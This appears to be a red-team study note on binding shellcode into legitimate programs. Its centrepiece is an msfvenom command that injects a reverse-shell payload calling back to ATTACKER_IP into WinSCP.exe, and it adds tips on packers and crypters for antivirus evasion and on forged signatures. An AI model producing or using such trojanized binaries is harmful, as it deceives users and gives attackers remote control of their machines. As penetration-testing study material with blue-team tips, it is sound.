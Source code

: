 ```yaml
---
tags:
  - red-team/host-evasion
aliases: 
date-created: 2025-07-09
dg-publish: true
---
```

~ [[Evading Antivirus - Shellcode]]
### Introduction
---
It applies the concept of trojan malware but still different: it is a tool used to combine a legitimate program (game or utility) with a malicious payload - resulting when the file is run, the legitimate app will launch normally, but the malicious code executes in the background:

![[Evading Antivirus - Shellcode-7.png|450]]

While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

Change the entry point in the PE header so that our shell code executes right before the program, in this way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

#### Key Topics
---
- [[#Binding with Msfvenom|Inject malicious payloads into legitimate programs using msfvenom’s -x option and create disguised reverse shells.]]
    
- [[#Questions and Problems|Understand execution prerequisites, limitations, and security concerns around binder use, including architecture compatibility and digital signatures.]]

## Binding with Msfvenom
---
The method used by msfvenom injects your malicious program by creating an extra thread for it, slightly different from what was mentioned previously however achieves the same result, this is much better since the legitimate program won't get blocked in case your shellcode fails for some reason.

```C
msfvenom -x Path/to/binary/WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

In this case we are executing WinSCP but in the background it will execute our payload:

![[Evading Antivirus - Shellcode-8.png|550]]

In our attacker shell:

![[Evading Antivirus - Shellcode-9.png]]

It wont' help hiding our payload against AV solutions - the main use is to fool the users believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.
### Questions and Problems
---
**Prerequisites or condition in order for binders to work?**

1. **Matching Architecture** Both binder and payload must be the same bitness—x86 or x64—else the injection will fail.
2. **Digital Signatures**
	- **Description**: Binding invalidates code signing unless re-signed, which is rare for malicious use.
	- **Red Team Tip**: If forging a signature, it must be trusted in the target environment.
	- **Blue Team Tip**: Treat unsigned or signature-altered binaries, especially those mimicking trusted software, as highly suspicious.
